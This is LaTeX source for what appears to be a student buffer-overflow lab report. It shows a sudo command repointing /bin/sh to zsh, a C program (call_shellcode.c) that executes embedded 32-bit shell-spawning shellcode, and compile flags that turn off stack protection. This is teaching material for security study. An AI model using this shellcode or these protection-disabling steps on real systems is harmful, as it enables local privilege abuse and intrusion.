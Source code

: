 \documentclass[12pt]{article}
\begin{document}
\begin{framed}
    \begin{verbatim}
sudo ln -sf /bin/zsh /bin/sh
    \end{verbatim}
\end{framed}

\begin{figure}[H]
    \centering
    \includegraphics[width=1\textwidth]{bf-configure-shell.png}
\end{figure}



\newpage

\subsubsection{Running Shellcode}
To perform the attack we need have shellcode loaded into our memory.
The program shown below is what we will use to pass shellcode that launches a new shell.
The statement \textbf{((void(*)( ))buf)()} in the main function will invoke a shell
when the program is executed.

\begin{lstlisting}
/* call_shellcode.c */
/* A program that launches a shell using shellcode */
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

const char code[] =
    "\x31\xc0"   /* xorl   %eax, %eax  */
    "\x50"       /* pushl  %eax        */
    "\x68""//sh" /* pushl  $0x68732f2f */
    "\x68""/bin" /* pushl  $0x6e69622f */
    "\x89\xe3"   /* movl   %esp, %ebx  */
    "\x50"       /* pushl  %eax        */
    "\x53"       /* pushl  %ebx        */
    "\x89\xe1"   /* movl   %esp,%ecx   */
    "\x99"       /* cdq                 */
    "\xb0\x0b"   /* movb   $0x0b,%al   */
    "\xcd\x80"   /* int    $0x80       */
    ;

int main(int argc, char **argv)
{
  char buf[sizeof(code)];
  strcpy(buf, code);
  ((void (*)())buf)();
}
\end{lstlisting}

\begin{framed}
    \begin{verbatim}
gcc -z execstack -o call_shellcode call_shellcode.c
./call_shellcode
id
exit
    \end{verbatim}
\end{framed}

\begin{figure}[H]
    \centering
    \includegraphics[width=1\textwidth]{bf-run-shellcode.png}
\end{figure}
\end{document}
